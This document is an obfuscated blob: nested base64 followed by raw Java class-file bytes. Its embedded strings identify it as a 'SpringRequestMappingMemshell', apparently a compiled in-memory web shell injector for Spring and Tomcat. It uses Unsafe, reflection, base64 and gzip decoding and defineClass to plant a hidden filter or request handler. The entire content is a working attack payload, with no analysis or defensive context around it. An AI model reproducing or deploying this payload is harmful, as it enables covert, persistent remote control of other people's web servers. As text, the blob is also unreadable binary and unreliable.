S1V4cVlYWmhMMnhoYm1jdlQySnFaV04wT3d3QVNRQktDZ0FDQUVzQkFCTmJUR3BoZG1FdmJHRnVaeTlVYUhKbFlXUTdCd0JOQVFBSFoyVjBUbUZ0WlF3QVR3QUdDZ0JHQUZBQkFCeERiMjUwWVdsdVpYSkNZV05yWjNKdmRXNWtVSEp2WTJWemMyOXlDQUJTQVFBSVkyOXVkR0ZwYm5NQkFCc29UR3BoZG1FdmJHRnVaeTlEYUdGeVUyVnhkV1Z1WTJVN0tWb01BRlFBVlFvQUVBQldBUUFHZEdGeVoyVjBDQUJZQVFBRloyVjBSbFlNQUZvQVNnb0FBZ0JiQVFBR2RHaHBjeVF3Q0FCZEFRQUlZMmhwYkdSeVpXNElBRjhCQUJGcVlYWmhMM1YwYVd3dlNHRnphRTFoY0FjQVlRRUFCbXRsZVZObGRBRUFFU2dwVEdwaGRtRXZkWFJwYkM5VFpYUTdEQUJqQUdRS0FHSUFaUUVBRFdwaGRtRXZkWFJwYkM5VFpYUUhBR2NMQUdnQUp3RUFBMmRsZEF3QWFnQTBDZ0JpQUdzQkFBaG5aWFJEYkdGemN3RUFFeWdwVEdwaGRtRXZiR0Z1Wnk5RGJHRnpjenNNQUcwQWJnb0FCQUJ2QVFBUGFtRjJZUzlzWVc1bkwwTnNZWE56QndCeENnQnlBRkFCQUE5VGRHRnVaR0Z5WkVOdmJuUmxlSFFJQUhRQkFBTmhaR1FCQUJVb1RHcGhkbUV2YkdGdVp5OVBZbXBsWTNRN0tWb01BSFlBZHdzQUpBQjRBUUFWVkc5dFkyRjBSVzFpWldSa1pXUkRiMjUwWlhoMENBQjZBUUFWWjJWMFEyOXVkR1Y0ZEVOc1lYTnpURzloWkdWeUFRQVpLQ2xNYW1GMllTOXNZVzVuTDBOc1lYTnpURzloWkdWeU93d0FmQUI5Q2dCR0FINEJBQWgwYjFOMGNtbHVad3dBZ0FBR0NnQnlBSUVCQUJsUVlYSmhiR3hsYkZkbFltRndjRU5zWVhOelRHOWhaR1Z5Q0FDREFRQWZWRzl0WTJGMFJXMWlaV1JrWldSWFpXSmhjSEJEYkdGemMweHZZV1JsY2dnQWhRRUFDWEpsYzI5MWNtTmxjd2dBaHdFQUIyTnZiblJsZUhRSUFJa0JBQnBxWVhaaEwyeGhibWN2VW5WdWRHbHRaVVY0WTJWd2RHbHZiZ2NBaXdFQUdDaE1hbUYyWVM5c1lXNW5MMVJvY205M1lXSnNaVHNwVmd3QUV3Q05DZ0NNQUk0QkFCTnFZWFpoTDJ4aGJtY3ZWR2h5YjNkaFlteGxCd0NRQVFBTlkzVnljbVZ1ZEZSb2NtVmhaQUVBRkNncFRHcGhkbUV2YkdGdVp5OVVhSEpsWVdRN0RBQ1NBSk1LQUVZQWxBRUFEbWRsZEVOc1lYTnpURzloWkdWeURBQ1dBSDBLQUhJQWx3d0FDUUFHQ2dBQ0FKa0JBQlZxWVhaaEwyeGhibWN2UTJ4aGMzTk1iMkZrWlhJSEFKc0JBQWxzYjJGa1EyeGhjM01CQUNVb1RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0tVeHFZWFpoTDJ4aGJtY3ZRMnhoYzNNN0RBQ2RBSjRLQUp3QW53d0FEQUFHQ2dBQ0FLRUJBQXhrWldOdlpHVkNZWE5sTmpRQkFCWW9UR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdLVnRDREFDakFLUUtBQUlBcFFFQURtZDZhWEJFWldOdmJYQnlaWE56QVFBR0tGdENLVnRDREFDbkFLZ0tBQUlBcVFFQUMyUmxabWx1WlVOc1lYTnpDQUNyQVFBQ1cwSUhBSzBCQUJGcVlYWmhMMnhoYm1jdlNXNTBaV2RsY2djQXJ3RUFCRlJaVUVVQkFCRk1hbUYyWVM5c1lXNW5MME5zWVhOek93d0FzUUN5Q1FDd0FMTUJBQkZuWlhSRVpXTnNZWEpsWkUxbGRHaHZaQUVBUUNoTWFtRjJZUzlzWVc1bkwxTjBjbWx1Wnp0YlRHcGhkbUV2YkdGdVp5OURiR0Z6Y3pzcFRHcGhkbUV2YkdGdVp5OXlaV1pzWldOMEwwMWxkR2h2WkRzTUFMVUF0Z29BY2dDM0FRQVlhbUYyWVM5c1lXNW5MM0psWm14bFkzUXZUV1YwYUc5a0J3QzVBUUFOYzJWMFFXTmpaWE56YVdKc1pRRUFCQ2hhS1ZZTUFMc0F2QW9BdWdDOUFRQUhkbUZzZFdWUFpnRUFGaWhKS1V4cVlYWmhMMnhoYm1jdlNXNTBaV2RsY2pzTUFMOEF3QW9Bc0FEQkFRQUdhVzUyYjJ0bEFRQTVLRXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPMXRNYW1GMllTOXNZVzVuTDA5aWFtVmpkRHNwVEdwaGRtRXZiR0Z1Wnk5UFltcGxZM1E3REFEREFNUUtBTG9BeFFFQUMyNWxkMGx1YzNSaGJtTmxEQURIQURBS0FISUF5QUVBRFdkbGRFWnBiSFJsY2s1aGJXVUJBQ1lvVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1V4cVlYWmhMMnhoYm1jdlUzUnlhVzVuT3dFQUFTNElBTXdCQUF0c1lYTjBTVzVrWlhoUFpnRUFGU2hNYW1GMllTOXNZVzVuTDFOMGNtbHVaenNwU1F3QXpnRFBDZ0FRQU5BQkFBbHpkV0p6ZEhKcGJtY0JBQlVvU1NsTWFtRjJZUzlzWVc1bkwxTjBjbWx1WnpzTUFOSUEwd29BRUFEVUFRQWdhbUYyWVM5c1lXNW5MME5zWVhOelRtOTBSbTkxYm1SRmVHTmxjSFJwYjI0SEFOWUJBQ0JxWVhaaEwyeGhibWN2U1c1emRHRnVkR2xoZEdsdmJrVjRZMlZ3ZEdsdmJnY0EyQUVBRVdkbGRFTmhkR0ZzYVc1aFRHOWhaR1Z5REFEYUFIMEtBQUlBMnd3QXlnRExDZ0FDQU4wQkFBMW1hVzVrUm1sc2RHVnlSR1ZtQ0FEZkFRQmRLRXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPMHhxWVhaaEwyeGhibWN2VTNSeWFXNW5PMXRNYW1GMllTOXNZVzVuTDBOc1lYTnpPMXRNYW1GMllTOXNZVzVuTDA5aWFtVmpkRHNwVEdwaGRtRXZiR0Z1Wnk5UFltcGxZM1E3REFCSkFPRUtBQUlBNGdFQUwyOXlaeTVoY0dGamFHVXVkRzl0WTJGMExuVjBhV3d1WkdWelkzSnBjSFJ2Y2k1M1pXSXVSbWxzZEdWeVJHVm1DQURrQVFBSFptOXlUbUZ0WlF3QTVnQ2VDZ0J5QU9jQkFDOXZjbWN1WVhCaFkyaGxMblJ2YldOaGRDNTFkR2xzTG1SbGMyTnlhWEIwYjNJdWQyVmlMa1pwYkhSbGNrMWhjQWdBNlFFQUpHOXlaeTVoY0dGamFHVXVZMkYwWVd4cGJtRXVaR1Z3Ykc5NUxrWnBiSFJsY2tSbFpnZ0E2d0VBSkc5eVp5NWhjR0ZqYUdVdVkyRjBZV3hwYm1FdVpHVndiRzk1TGtacGJIUmxjazFoY0FnQTdRRUFQU2hNYW1GMllTOXNZVzVuTDFOMGNtbHVaenRhVEdwaGRtRXZiR0Z1Wnk5RGJHRnpjMHh2WVdSbGNqc3BUR3BoZG1FdmJHRnVaeTlEYkdGemN6c01BT1lBN3dvQWNnRHdBUUFOYzJWMFJtbHNkR1Z5VG1GdFpRZ0E4Z0VBRG5ObGRFWnBiSFJsY2tOc1lYTnpDQUQwQVFBTVlXUmtSbWxzZEdWeVJHVm1DQUQyQVFBTmMyVjBSR2x6Y0dGMFkyaGxjZ2dBK0FFQUIxSkZVVlZGVTFRSUFQb0JBQTFoWkdSVlVreFFZWFIwWlhKdUNBRDhEQUFGQUFZS0FBSUEvZ0VBTUc5eVp5NWhjR0ZqYUdVdVkyRjBZV3hwYm1FdVkyOXlaUzVCY0hCc2FXTmhkR2x2YmtacGJIUmxja052Ym1acFp3Z0JBQUVBRjJkbGRFUmxZMnhoY21Wa1EyOXVjM1J5ZFdOMGIzSnpBUUFpS0NsYlRHcGhkbUV2YkdGdVp5OXlaV1pzWldOMEwwTnZibk4wY25WamRHOXlPd3dCQWdFRENnQnlBUVFCQUExelpYUlZVa3hRWVhSMFpYSnVDQUVHQVFBU1lXUmtSbWxzZEdWeVRXRndRbVZtYjNKbENBRUlBUUFNWVdSa1JtbHNkR1Z5VFdGd0NBRUtBUUFkYW1GMllTOXNZVzVuTDNKbFpteGxZM1F2UTI5dWMzUnlkV04wYjNJSEFRd0tBUTBBdlFFQUp5aGJUR3BoZG1FdmJHRnVaeTlQWW1wbFkzUTdLVXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPd3dBeHdFUENnRU5BUkFCQUExbWFXeDBaWEpEYjI1bWFXZHpDQUVTQVFBTmFtRjJZUzkxZEdsc0wwMWhjQWNCRkFFQUEzQjFkQUVBT0NoTWFtRjJZUzlzWVc1bkwwOWlhbVZqZER0TWFtRjJZUzlzWVc1bkwwOWlhbVZqZERzcFRHcGhkbUV2YkdGdVp5OVBZbXBsWTNRN0RBRVdBUmNMQVJVQkdBRUFEM0J5YVc1MFUzUmhZMnRVY21GalpRd0JHZ0FYQ2dBWkFSc0JBQ0JiVEdwaGRtRXZiR0Z1Wnk5eVpXWnNaV04wTDBOdmJuTjBjblZqZEc5eU93Y0JIUUVBRm5OMWJpNXRhWE5qTGtKQlUwVTJORVJsWTI5a1pYSUlBUjhCQUF4a1pXTnZaR1ZDZFdabVpYSUlBU0VCQUFsblpYUk5aWFJvYjJRTUFTTUF0Z29BY2dFa0FRQVFhbUYyWVM1MWRHbHNMa0poYzJVMk5BZ0JKZ0VBQ21kbGRFUmxZMjlrWlhJSUFTZ0JBQVprWldOdlpHVUlBU29CQUIxcVlYWmhMMmx2TDBKNWRHVkJjbkpoZVU5MWRIQjFkRk4wY21WaGJRY0JMQW9CTFFBYUFRQWNhbUYyWVM5cGJ5OUNlWFJsUVhKeVlYbEpibkIxZEZOMGNtVmhiUWNCTHdFQUJTaGJRaWxXREFBVEFURUtBVEFCTWdFQUhXcGhkbUV2ZFhScGJDOTZhWEF2UjFwSlVFbHVjSFYwVTNSeVpXRnRCd0UwQVFBWUtFeHFZWFpoTDJsdkwwbHVjSFYwVTNSeVpXRnRPeWxXREFBVEFUWUtBVFVCTndFQUJISmxZV1FCQUFVb1cwSXBTUXdCT1FFNkNnRTFBVHNCQUFWM2NtbDBaUUVBQnloYlFrbEpLVllNQVQwQlBnb0JMUUUvQVFBTGRHOUNlWFJsUVhKeVlYa0JBQVFvS1Z0Q0RBRkJBVUlLQVMwQlF3RUFCR2RsZEVZQkFEOG9UR3BoZG1FdmJHRnVaeTlQWW1wbFkzUTdUR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdLVXhxWVhaaEwyeGhibWN2Y21WbWJHVmpkQzlHYVdWc1pEc01BVVVCUmdvQUFnRkhBUUFYYW1GMllTOXNZVzVuTDNKbFpteGxZM1F2Um1sbGJHUUhBVWtLQVVvQXZRb0JTZ0JyQVFBZWFtRjJZUzlzWVc1bkwwNXZVM1ZqYUVacFpXeGtSWGhqWlhCMGFXOXVCd0ZOQVFBUVoyVjBSR1ZqYkdGeVpXUkdhV1ZzWkFFQUxTaE1hbUYyWVM5c1lXNW5MMU4wY21sdVp6c3BUR3BoZG1FdmJHRnVaeTl5Wldac1pXTjBMMFpwWld4a093d0JUd0ZRQ2dCeUFWRUJBQTFuWlhSVGRYQmxjbU5zWVhOekRBRlRBRzRLQUhJQlZBb0JUZ0FWQVFBU1oyVjBSR1ZqYkdGeVpXUk5aWFJvYjJSekFRQWRLQ2xiVEdwaGRtRXZiR0Z1Wnk5eVpXWnNaV04wTDAxbGRHaHZaRHNNQVZjQldBb0FjZ0ZaQ2dDNkFGQUJBQVpsY1hWaGJITU1BVndBZHdvQUVBRmRBUUFSWjJWMFVHRnlZVzFsZEdWeVZIbHdaWE1CQUJRb0tWdE1hbUYyWVM5c1lXNW5MME5zWVhOek93d0JYd0ZnQ2dDNkFXRUtBRDhBRlFFQUNtZGxkRTFsYzNOaFoyVU1BV1FBQmdvQVBRRmxDZ0NNQUJVQkFCdGJUR3BoZG1FdmJHRnVaeTl5Wldac1pXTjBMMDFsZEdodlpEc0hBV2dCQUFnOFkyeHBibWwwUGdvQUFnQWFBUUFQYzNWdUxtMXBjMk11Vlc1ellXWmxDQUZzQVFBSmRHaGxWVzV6WVdabENBRnVBUUFpYW1GMllTOXNZVzVuTDNKbFpteGxZM1F2UVdOalpYTnphV0pzWlU5aWFtVmpkQWNCY0FvQmNRQzlBUUFKWjJWMFRXOWtkV3hsQ0FGekFRQVRXMHhxWVhaaEwyeGhibWN2VDJKcVpXTjBPd2NCZFFFQUVXOWlhbVZqZEVacFpXeGtUMlptYzJWMENBRjNBUUFHYlc5a2RXeGxDQUY1QVFBUFoyVjBRVzVrVTJWMFQySnFaV04wQ0FGN0FRQU9hbUYyWVM5c1lXNW5MMHh2Ym1jSEFYMEpBWDRBc3dFQUJFTnZaR1VCQUFwRmVHTmxjSFJwYjI1ekFRQU5VM1JoWTJ0TllYQlVZV0pzWlFFQUNWTnBaMjVoZEhWeVpRQWhBQUlBQkFBQUFBQUFFUUFCQUFVQUJnQUJBWUFBQUFBUEFBRUFBUUFBQUFNU0NMQUFBQUFBQUFFQUNRQUdBQUVCZ0FBQUFBOEFBUUFCQUFBQUF4SUxzQUFBQUFBQUFRQU1BQVlBQWdHQUFBQUFGZ0FEQUFFQUFBQUt1d0FRV1JJU3R3QVdzQUFBQUFBQmdRQUFBQVFBQVFBT0FBRUFFd0FYQUFFQmdBQUFBSG9BQXdBRkFBQUFPaXEzQUJzcXRnQWVLcllBSWt3cnVRQW9BUUJOTExrQUxnRUFtUUFiTExrQU1nRUFUaW90dHdBMk9nUXFMUmtFdGdBNnAvL2lwd0FFVExFQUFRQUlBRFVBT0FBWkFBRUJnZ0FBQUNZQUJQOEFGQUFEQndBQ0J3QWtCd0FxQUFBZy93QUNBQUVIQUFJQUFRY0FHZndBQUFjQUJBQUJBQjhBSUFBREFZQUFBQUg1QUFNQURnQUFBWG03QUVOWnR3QkVUQkpHRWtpNEFFekFBRTdBQUU1TkFVNHNPZ1FaQkw0MkJRTTJCaFVHRlFXaUFVRVpCQlVHTWpvSEdRZTJBRkVTVTdZQVY1a0FzeTNIQUs4WkJ4Slp1QUJjRWw2NEFGd1NZTGdBWE1BQVlqb0lHUWkyQUdhNUFHa0JBRG9KR1FtNUFDNEJBSmtBZ0JrSnVRQXlBUUE2Q2hrSUdRcTJBR3dTWUxnQVhNQUFZam9MR1F1MkFHYTVBR2tCQURvTUdReTVBQzRCQUprQVRSa011UUF5QVFBNkRSa0xHUTIyQUd4T0xjWUFHaTIyQUhDMkFITVNkYllBVjVrQUN5c3R1UUI1QWdCWExjWUFHaTIyQUhDMkFITVNlN1lBVjVrQUN5c3R1UUI1QWdCWHAvK3ZwLzk4cHdCM0dRZTJBSC9HQUc4WkI3WUFmN1lBY0xZQWdoS0V0Z0JYbWdBV0dRZTJBSCsyQUhDMkFJSVNocllBVjVrQVNSa0h0Z0IvRW9pNEFGd1NpcmdBWEU0dHhnQWFMYllBY0xZQWN4SjF0Z0JYbVFBTEt5MjVBSGtDQUZjdHhnQWFMYllBY0xZQWN4Sjd0Z0JYbVFBTEt5MjVBSGtDQUZlRUJnR24vcjZuQUE4NkJMc0FqRmtaQkxjQWo3OHJzQUFCQUJnQmFBRnJBQmtBQVFHQ0FBQUFaZ0FPL3dBakFBY0hBQUlIQUVNSEFFNEhBQVFIQUU0QkFRQUEvZ0JBQndCR0J3QmlCd0FxL2dBdkJ3QUVCd0JpQndBcS9BQTFCd0FFR3ZvQUF2Z0FBdmtBQWkwcUd2b0FCZjhBQWdBRUJ3QUNCd0JEQndCT0J3QUVBQUVIQUJuK0FBc0hBRTRCQVFHQkFBQUFDQUFEQUQwQVB3QkJBWU1BQUFBQ0FEc0FBZ0F6QURRQUFRR0FBQUFBNFFBR0FBZ0FBQUNFQVUyNEFKVzJBSDlPTGNjQUN5dTJBSEMyQUpoT0xTcTJBSnEyQUtCTnB3QmtPZ1FxdGdDaXVBQ211QUNxT2dVU25CS3NCcjBBY2xrREVxNVRXUVN5QUxSVFdRV3lBTFJUdGdDNE9nWVpCZ1MyQUw0WkJpMEd2UUFFV1FNWkJWTlpCQU80QU1KVFdRVVpCYjY0QU1KVHRnREd3QUJ5T2djWkI3WUF5VTJuQUFVNkJTeXdBQUlBRlFBZUFDRUFHUUFqQUgwQWdBQ1JBQUVCZ2dBQUFEc0FCUDBBRlFVSEFKei9BQXNBQkFjQUFnY0FCQWNBY2djQW5BQUJCd0FaL3dCZUFBVUhBQUlIQUFRSEFBUUhBSndIQUJrQUFRY0FrZm9BQVFBQkFNb0F5d0FCQVlBQUFBQXZBQU1BQXdBQUFCb3JFczIyQUZlWkFCSXJFczIyQU5FOUt4d0VZTFlBMWJBcnNBQUFBQUVCZ2dBQUFBTUFBUmdBQVFBM0FEZ0FBZ0dBQUFBQ3FnQUhBQXNBQUFIWUtyWUEzRTRxdGdDYU9nUXFHUVMyQU40NkJTc1M0QVM5QUhKWkF4SVFVd1M5QUFSWkF4a0ZVN2dBNDhZQUJMR25BQVU2Q0JMbHVBRG90Z0RKT2dZUzZyZ0E2TFlBeVRvSHB3QTJPZ2dTN0xnQTZMWUF5VG9HRXU2NEFPaTJBTWs2QjZjQUhUb0pFdXdFTGJnQThiWUF5VG9HRXU0RUxiZ0E4YllBeVRvSEdRWVM4d1M5QUhKWkF4SVFVd1M5QUFSWkF4a0ZVN2dBNDFjWkJoTDFCTDBBY2xrREVoQlRCTDBBQkZrREdRUlR1QURqVnlzUzl3UzlBSEpaQXhrR3RnQndVd1M5QUFSWkF4a0dVN2dBNDFjWkJ4THpCTDBBY2xrREVoQlRCTDBBQkZrREdRVlR1QURqVnhrSEV2a0V2UUJ5V1FNU0VGTUV2UUFFV1FNUysxTzRBT05YR1FjUy9RUzlBSEpaQXhJUVV3UzlBQVJaQXlxMkFQOVR1QURqVnhNQkFiZ0E2TFlCQlRvSXB3QXZPZ2taQnhNQkJ3UzlBSEpaQXhJUVV3UzlBQVJaQXlxMkFQOVR1QURqVnhNQkFRUXR1QUR4dGdFRk9nZ3JFd0VKQkwwQWNsa0RHUWUyQUhCVEJMMEFCRmtER1FkVHVBRGpWNmNBSWpvSkt4TUJDd1M5QUhKWkF4a0h0Z0J3VXdTOUFBUlpBeGtIVTdnQTQxY1pDQU15QkxZQkRoa0lBeklGdlFBRVdRTXJVMWtFR1FaVHRnRVJPZ2tyRXdFVHVBQmN3QUVWT2dvWkNoa0ZHUW01QVJrREFGZW5BQW82Q0JrSXRnRWNzUUFHQUJNQUxnQXlBQmtBTkFCSUFFc0FHUUJOQUdFQVpBQVpBUUlCS1FFc0FCa0JXQUYxQVhnQUdRQitBYzBCMEFBWkFBRUJnZ0FBQUpBQURQNEFMd2NBbkFjQUVBY0FFRUlIQUJrQlZnY0FHZjhBR0FBSkJ3QUNCd0FFQndBRUJ3Q2NCd0FRQndBUUFBQUhBQmtBQVFjQUdmOEFHUUFJQndBQ0J3QUVCd0FFQndDY0J3QVFCd0FRQndBRUJ3QUVBQUQzQUswSEFCbjhBQ3NIQVI1ZkJ3QVpIdjhBT0FBSUJ3QUNCd0FFQndBRUJ3Q2NCd0FRQndBUUJ3QUVCd0FFQUFFSEFCbjhBQVlIQUFRQmdRQUFBQXdBQlFCQkFEOEFQUURYQU5rQUFRRGFBSDBBQWdHQUFBQUFaZ0FDQUFRQUFBQTRFa1lTU0xnQVRNQUFUc0FBVGt3QlRRTStIU3Urb2dBaEt4MHl0Z0JSRWxPMkFGZVpBQTBySFRLMkFIOU5wd0FKaEFNQnAvL2ZMTEFBQUFBQkFZSUFBQUFjQUFQK0FCSUhBRTRGQVIzL0FBVUFCQWNBQWdjQVRnY0FuQUVBQUFHQkFBQUFDQUFEQUQ4QVFRQTlBQWdBb3dDa0FBSUJnQUFBQUk4QUJnQUVBQUFBYnhNQklMZ0E2RXdyRXdFaUJMMEFjbGtERWhCVHRnRWxLN1lBeVFTOUFBUlpBeXBUdGdER3dBQ3V3QUN1c0UwVEFTZTRBT2hNS3hNQktRTzlBSEsyQVNVQkE3MEFCTFlBeGs0dHRnQndFd0VyQkwwQWNsa0RFaEJUdGdFbExRUzlBQVJaQXlwVHRnREd3QUN1d0FDdXNBQUJBQUFBTEFBdEFCa0FBUUdDQUFBQUJnQUJiUWNBR1FHQkFBQUFDZ0FFQU5jQVB3QkJBRDBBQ1FDbkFLZ0FBZ0dBQUFBQWJBQUVBQVlBQUFBK3V3RXRXYmNCTGt5N0FUQlpLcmNCTTAyN0FUVlpMTGNCT0U0UkFRQzhDRG9FTFJrRXRnRThXVFlGbXdBUEt4a0VBeFVGdGdGQXAvL3JLN1lCUkxBQUFBQUJBWUlBQUFBY0FBTC9BQ0VBQlFjQXJnY0JMUWNCTUFjQk5RY0FyZ0FBL0FBWEFRR0JBQUFBQkFBQkFBNEFDQUJhQUVvQUFnR0FBQUFBSFFBQ0FBTUFBQUFSS2l1NEFVaE5MQVMyQVVzc0tyWUJUTEFBQUFBQUFZRUFBQUFFQUFFQUdRQUlBVVVCUmdBQ0FZQUFBQUJQQUFNQUJBQUFBQ2dxdGdCd1RTekdBQmtzSzdZQlVrNHRCTFlCU3kyd1RpeTJBVlZOcC8vcHV3Rk9XU3UzQVZhL0FBRUFDUUFWQUJZQlRnQUJBWUlBQUFBTkFBUDhBQVVIQUhKUUJ3Rk9DQUdCQUFBQUJBQUJBVTRBS0FCSkFFb0FBZ0dBQUFBQUdnQUVBQUlBQUFBT0tpc0R2UUJ5QTcwQUJMZ0E0N0FBQUFBQUFZRUFBQUFJQUFNQVB3QTlBRUVBS1FCSkFPRUFBZ0dBQUFBQkl3QURBQWtBQUFES0tzRUFjcGtBQ2lyQUFIS25BQWNxdGdCd09nUUJPZ1VaQkRvR0dRWEhBR1FaQnNZQVh5ekhBRU1aQnJZQldqb0hBellJRlFnWkI3NmlBQzRaQnhVSU1yWUJXeXUyQVY2WkFCa1pCeFVJTXJZQllyNmFBQTBaQnhVSU1qb0Zwd0FKaEFnQnAvL1Fwd0FNR1FZckxMWUF1RG9GcC8rcE9nY1pCcllCVlRvR3AvK2RHUVhIQUF5N0FEOVpLN2NCWTc4WkJRUzJBTDRxd1FCeW1RQWFHUVVCTGJZQXhyQTZCN3NBakZrWkI3WUJacmNCWjc4WkJTb3R0Z0RHc0RvSHV3Q01XUmtIdGdGbXR3Rm52d0FEQUNVQWNnQjFBRDhBbkFDakFLUUFQUUN6QUxvQXV3QTlBQUVCZ2dBQUFDOEFEZzVEQndCeS9nQUlCd0J5QndDNkJ3QnkvUUFYQndGcEFTd0YrUUFDQ0VJSEFEOExEVlFIQUQwT1J3Y0FQUUdCQUFBQUNBQURBRDhBUVFBOUFBZ0JhZ0FYQUFFQmdBQUFBQlVBQWdBQUFBQUFDYnNBQWxtM0FXdFhzUUFBQUFBQUFRQWNBQmNBQVFHQUFBQUF6Z0FHQUFzQUFBQ3JFd0Z0dUFEb1RDc1RBVysyQVZKTkxBUzJBWElzQWJZQlRFNFNjaE1CZEFPOUFISzJBU1U2QkJrRUVnUUJ3QUYydGdER09nVXR0Z0J3RXdGNEJMMEFjbGtERXdGS1U3WUJKVG9HRW5JVEFYcTJBVkk2QnhrR0xRUzlBQVJaQXhrSFU3WUF4am9JTGJZQWNCTUJmQWE5QUhKWkF4SUVVMWtFc2dGL1Uxa0ZFZ1JUdGdFbE9na1pDUzBHdlFBRVdRTXF0Z0J3VTFrRUdRaFRXUVVaQlZPMkFNWlhwd0FJT2dxbkFBT3hBQUVBQUFDaUFLVUFHUUFCQVlJQUFBQUpBQUwzQUtVSEFCa0VBQUE9CgB1AHYHAHcMAHgAeQEAGGphdmEvdXRpbC9CYXNlNjQkRGVjb2RlcgEABmRlY29kZQEAFihMamF2YS9sYW5nL1N0cmluZzspW0IKAGEAewwAfAB9AQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsKAGoAfwwAgACBAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7CgAWAIMMAIQAhQEAC25ld0luc3RhbmNlAQAUKClMamF2YS9sYW5nL09iamVjdDsHAIcBABNqYXZhL2xhbmcvRXhjZXB0aW9uBwCJAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24KAIgAiwwABQCMAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWBwCOAQAgamF2YS9sYW5nL0lsbGVnYWxBY2Nlc3NFeGNlcHRpb24HAJABAB5qYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb24KABYAkgwAkwCUAQAOZ2V0Q29uc3RydWN0b3IBADMoW0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsKAJYAlwcAmAwAhACZAQAdamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3IBACcoW0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsJAEkAmwwAnABNAQADZXJyCACeAQAoQ2xhc3Mgb2JqZWN0IGlzIG51bGwsIGNhbm5vdCBpbml0aWFsaXplLggAoAEAJEZhaWxlZCB0byBpbml0aWFsaXplIGNsYXNzIGluc3RhbmNlLgoAiACiDAAFAKMBACooTGphdmEvbGFuZy9TdHJpbmc7TGphdmEvbGFuZy9UaHJvd2FibGU7KVYKAAoAAwEACVNpZ25hdHVyZQEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEAC3Vuc2FmZUNsYXNzAQALdW5zYWZlRmllbGQBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAGdW5zYWZlAQARTHN1bi9taXNjL1Vuc2FmZTsBABJMamF2YS9sYW5nL01vZHVsZTsBAANjbHMBAAZvZmZzZXQBAAFKAQAaTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAAhieXRlY29kZQEAAmV4AQAVTGphdmEvbGFuZy9FeGNlcHRpb247AQABZQEAIkxqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbjsBAChMamF2YS9sYW5nL1JlZmxlY3RpdmVPcGVyYXRpb25FeGNlcHRpb247AQANaW5pdEV4Y2VwdGlvbgEABHRoaXMBACJMbWVtL1NwcmluZ1JlcXVlc3RNYXBwaW5nTWVtc2hlbGw7AQANU3RhY2tNYXBUYWJsZQcAvwEAJmphdmEvbGFuZy9SZWZsZWN0aXZlT3BlcmF0aW9uRXhjZXB0aW9uAQAIPGNsaW5pdD4BAApTb3VyY2VGaWxlAQAhU3ByaW5nUmVxdWVzdE1hcHBpbmdNZW1zaGVsbC5qYXZhAQAQQm9vdHN0cmFwTWV0aG9kcw8GAMUKAMYAxwcAyAwAUADJAQAkamF2YS9sYW5nL2ludm9rZS9TdHJpbmdDb25jYXRGYWN0b3J5AQCYKExqYXZhL2xhbmcvaW52b2tlL01ldGhvZEhhbmRsZXMkTG9va3VwO0xqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvaW52b2tlL01ldGhvZFR5cGU7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL2ludm9rZS9DYWxsU2l0ZTsIAMsBAC5DbGFzcyAnAScgYWxyZWFkeSBsb2FkZWQuIFNraXBwaW5nIGRlZmluaXRpb24uAQAMSW5uZXJDbGFzc2VzAQAHRGVjb2RlcgcAzwEAJWphdmEvbGFuZy9pbnZva2UvTWV0aG9kSGFuZGxlcyRMb29rdXAHANEBAB5qYXZhL2xhbmcvaW52b2tlL01ldGhvZEhhbmRsZXMBAAZMb29rdXAAIQAKAAIAAAACAAAADQAOAAAAAAARABIAAQClAAAAAgCmAAIAAQAFAAYAAQCnAAACoAAGAAgAAAEYKrcAASoSB7UACSoBtQAPEhO4ABVMKxIbtgAdTSwEtgAhLAG2ACfAACtOEgK2AC06BBIKOgUtEhYSMbYAHbYAMzcGLRkFFgYZBLYAN1cqKrQACQO4ADu2AEG4AEW1AA+yAEgqtAAJugBOAAC2AFKnAHVMEloSXAa9ABZZAxJeU1kEsgBgU1kFsgBgU7YAZU0sBLYAabgAbBJytgB0Tiy4ADu2AEEGvQACWQMtU1kEA7gAelNZBS2+uAB6U7YAfsAAFjoEGQS2AIJXpwANTbsAiFkstwCKv6cADUy7AIhZK7cAir8qtAAPxgAZKrQADwO9ABa2AJEDvQACtgCVV6cAC7IAmhKdtgBSpwAPTLsAiFkSnyu3AKG/sQAFAA8AbgBxAFgAcgDJAMwAhgAPAG4A2QCNAA8AbgDZAI8A4wEIAQsAhgADAKgAAACGACEAAAAZAAQAEgAKABMADwAbABUAHAAcAB0AIQAeACoAIAAxACEANQAiAEIAJABNACYAXwAnAG4ANgBxACgAcgArAI8ALACUAC0AnQAuAMMALwDJADIAzAAwAM0AMQDWADYA2QA0ANoANQDjADgA6gA5AQAAOwEIAD8BCwA9AQwAPgEXAEAAqQAAAI4ADgAVAFkAqgASAAEAHABSAKsArAACACoARACtAK4AAwAxAD0AMgCvAAQANQA5ALAAEgAFAEIALACxALIABgCPADoAXQCzAAIAnQAsALQAXwADAMMABgARABIABADNAAkAtQC2AAIAcgBkALcAuAABANoACQC3ALkAAQEMAAsAugC2AAEAAAEYALsAvAAAAL0AAAAuAAn/AHEAAQcACgABBw